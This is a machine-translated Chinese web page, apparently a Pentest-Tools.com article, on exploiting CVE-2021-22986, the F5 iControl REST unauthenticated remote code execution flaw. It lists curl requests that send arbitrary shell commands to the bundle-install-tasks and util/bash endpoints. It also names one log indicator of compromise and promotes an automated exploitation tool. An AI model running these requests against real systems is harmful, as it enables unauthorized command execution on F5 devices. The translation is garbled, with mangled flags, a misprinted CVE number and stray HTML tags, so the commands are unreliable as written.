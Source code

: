 ## ****如何在道德黑客活动中利用 CVE-2021-22986****

**为了利用 CVE-20212-22986，您必须遵循以下步骤:**

1.  **curl-ksu admin:https://<host>/mgmt/TM/access/bundle-install-tasks-d ' { " file path ":"<command></command>" } '</host>**

2.  **curl-ksu admin:https://<host>/mgmt/TM/access/bundle-install-tasks-d ' { " file path ":"<command></command>" } '</host>**

3.  **curl-su admin:-H " Content-Type:application/JSON " http://<host>:8100/mgmt/TM/util/bash-d ' { " command ":" run "，" utilCmdArgs":"-c <command></command>"} '</host>**

**如果您想尝试另一种更快的利用策略，请继续阅读并观看下面的演示。**

## ****CVE 的已知危害指标(IoCs)2021-22986****

**[按 F5](https://support.f5.com/csp/article/K03009991) ，你应该(手动)在“/var/log/restjavad*中查找以下条目。日志”文件:**

***“X-F5-Auth-Token 没有值”***

**在你的目标上验证 CVE-2021-22986 可被利用的最快和最省事的方法是使用 [**狙击自动利用者**](https://pentest-tools.com/exploit-helpers/sniper) ，Pentest-Tools.com 上的自动攻击者。**

**该工具自动模拟现实世界的利用和攻击技术:**

*   **它**扫描打开的端口**，收集关于协议、服务类型和版本的数据**

*   **它**采集 web 服务的指纹**以确定运行的 web 应用程序的类型及其背后的技术栈**

*   **它**寻找兼容的漏洞****

*   **它**检查目标是否确实易受攻击**——在此阶段不提取任何数据**

*   **一旦它获得 RCE，Sniper 自动**提取所有的人工制品(**当前和本地用户，系统信息，运行进程，网络配置等。)，这将在输出报告中得到**

*   **它**清除**，所以目标保持不变。**

**正如你从演示中看到的，*这一切都在一分钟内发生*与手动开发相比，这是一个巨大的收益，尤其是当你在 pentest 中时间紧迫时(而当*没有发生*？).**

 **<template x-if="showVideo"></template>

如果您需要一份包含 F5 iControl REST 未认证 RCE 的调查结果的报告，您可以使用 Pentest-Tools.com[**网络漏洞扫描器**](https://pentest-tools.com/network-vulnerability-scanning/network-security-scanner-online-openvas) 。在您的目标上运行它，获得一份完整的、随时可用的报告，其中包含您可以与同事和客户分享的丰富细节:

![F5 iControl REST Unauthenticated RCE finding](img/e8c8a1c02fbd08c75ce63bc0f3099a7c.png)
